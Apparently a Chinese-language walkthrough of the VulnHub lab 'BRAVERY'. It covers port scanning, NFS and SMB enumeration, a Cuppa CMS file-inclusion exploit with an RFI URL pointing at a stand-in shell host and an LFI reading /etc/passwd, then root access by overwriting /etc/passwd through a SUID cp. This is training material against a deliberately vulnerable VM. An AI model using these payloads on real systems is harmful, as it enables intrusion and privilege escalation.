








# digitalworld.local: BRAVERY

> https://download.vulnhub.com/digitalworld/bravery-improved.7z.torrent

靶场IP：`192.168.32.203`

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.203
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-05 22:13 EDT
Nmap scan report for 192.168.32.203
Host is up (0.00051s latency).
Not shown: 65522 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 7.4 (protocol 2.0)
53/tcp    open  domain      dnsmasq 2.76
80/tcp    open  http        Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
111/tcp   open  rpcbind     2-4 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp   open  ssl/http    Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
445/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
2049/tcp  open  nfs_acl     3 (RPC #100227)
3306/tcp  open  mysql       MariaDB (unauthorized)
8080/tcp  open  http        nginx 1.12.2
20048/tcp open  mountd      1-3 (RPC #100005)
45062/tcp open  nlockmgr    1-4 (RPC #100021)
55372/tcp open  status      1 (RPC #100024)
MAC Address: 00:0C:29:34:0B:BA (VMware)
Service Info: Host: BRAVERY

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.87 seconds

```

查看nfs

```
┌──(root💀kali)-[/tmp]
└─# showmount -e 192.168.32.203   
Export list for 192.168.32.203:
/var/nfsshare *

```

挂载nfs目录

```
┌──(root💀kali)-[/tmp]
└─# mkdir /tmp/test
                                                                                                                                                                                                                                             
┌──(root💀kali)-[/tmp]
└─# mount -t nfs  192.168.32.203:/var/nfsshare /tmp/test/ 
                                                                                                                                                                                                                                             
┌──(root💀kali)-[/tmp]
└─# cd /tmp/test
                                                                                                                                                                                                                                             
┌──(root💀kali)-[/tmp/test]
└─# ls
discovery  enumeration  explore  itinerary  password.txt  qwertyuioplkjhgfdsazxcvbnm  README.txt

```

枚举共享目录

```
┌──(root💀kali)-[/tmp/test]
└─# enum4linux  192.168.32.203
```



使用之前的密码（`qwertyuioplkjhgfdsazxcvbnm`）登录共享目录

```
┌──(root💀kali)-[/tmp/test]
└─# smbclient  //192.168.32.203/anonymous 
Password for [WODGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Sep 28 09:01:35 2018
  ..                                  D        0  Thu Jun 14 12:30:39 2018
  patrick's folder                    D        0  Fri Sep 28 08:38:27 2018
  qiu's folder                        D        0  Fri Sep 28 09:27:20 2018
  genevieve's folder                  D        0  Fri Sep 28 09:08:31 2018
  david's folder                      D        0  Tue Dec 25 21:19:51 2018
  kenny's folder                      D        0  Fri Sep 28 08:52:49 2018
  qinyi's folder                      D        0  Fri Sep 28 08:45:22 2018
  sara's folder                       D        0  Fri Sep 28 09:34:23 2018
  readme.txt                          N      489  Fri Sep 28 09:54:03 2018

                17811456 blocks of size 1024. 13181736 blocks available

```

使用**David**用户访问`secured`目录

```
┌──(root💀kali)-[/tmp/test]
└─# smbclient //192.168.32.203/secured -U David
Password for [WODGROUP\David]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Sep 28 09:52:14 2018
  ..                                  D        0  Thu Jun 14 12:30:39 2018
  david.txt                           N      376  Sat Jun 16 04:36:07 2018
  genevieve.txt                       N      398  Mon Jul 23 12:51:27 2018
  README.txt                          N      323  Mon Jul 23 21:58:53 2018

                17811456 blocks of size 1024. 13185880 blocks available
smb: \> get david.txt
getting file \david.txt of size 376 as david.txt (73.4 KiloBytes/sec) (average 73.4 KiloBytes/sec)
smb: \> get genevieve.txt
getting file \genevieve.txt of size 398 as genevieve.txt (77.7 KiloBytes/sec) (average 75.6 KiloBytes/sec)
smb: \> get README.txt
getting file \README.txt of size 323 as README.txt (52.6 KiloBytes/sec) (average 67.0 KiloBytes/sec)

```

查看三个文件，找到三个路径



访问`/developmentsecretpage`



访问`/devops/directortestpagev1.php`



访问`/genevieve/`


查看目录，找到`Cuppa CMS`



查找漏洞版本

```
┌──(root💀kali)-[/tmp]
└─# searchsploit cuppa                                                                                                                                                                                                                 
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion                                                                                                                                            | php/webapps/25971.txt
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                                                                                                                                             
┌──(root💀kali)-[/tmp]
└─# searchsploit -m php/webapps/25971.txt
  Exploit: Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion
      URL: https://www.exploit-db.com/exploits/25971
     Path: /usr/share/exploitdb/exploits/php/webapps/25971.txt
File Type: C++ source, ASCII text, with very long lines

Copied to: /tmp/25971.txt

```

> exp
>
> ```
> http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
> http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
> ```

```
http://192.168.32.203/genevieve/cuppaCMS/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```



RFI反弹shell


寻找文件

```
sh-4.2$ cat maintenance.sh
cat maintenance.sh
#!/bin/sh

rm /var/www/html/README.txt
echo "Try harder!" > /var/www/html/README.txt
chown apache:apache /var/www/html/README.txt

```

查看suid

```
sh-4.2$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/bin/cp
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/mount
/usr/bin/su
/usr/bin/umount
/usr/bin/Xorg
/usr/bin/pkexec
/usr/bin/crontab
/usr/bin/passwd
/usr/bin/ksu
/usr/bin/at
/usr/bin/staprun
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/usernetctl
/usr/sbin/userhelper
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
/usr/libexec/flatpak-bwrap
/usr/libexec/sssd/krb5_child
/usr/libexec/sssd/ldap_child
/usr/libexec/sssd/selinux_child
/usr/libexec/sssd/proxy_child
/usr/libexec/qemu-bridge-helper
/usr/libexec/spice-gtk-x86_64/spice-client-glib-usb-acl-helper
/usr/libexec/abrt-action-install-debuginfo-to-abrt-cache
```

创建密码

```
┌──(root💀kali)-[/tmp]
└─# openssl passwd -1 -salt hack pass123                                                                      
$1$hack$22.CgYt2uMolqeatCk9ih/

```

查看靶场的passwd文件，并在本地编辑新增用户，给靶场下载**覆盖**



提权成功

